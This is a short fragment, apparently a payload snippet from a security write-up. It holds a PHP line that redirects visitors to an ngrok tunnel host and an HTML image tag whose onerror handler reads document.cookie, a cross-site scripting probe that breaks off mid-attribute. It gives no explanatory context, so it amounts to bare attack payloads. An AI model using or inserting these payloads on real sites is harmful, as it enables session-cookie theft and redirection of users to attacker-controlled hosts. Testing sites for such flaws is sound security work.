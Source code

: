 <?php header("Location: http://b144-154-103-42-229.ngrok.io"); ?>
<img src=x onerror=alert(document.cookie) alt=
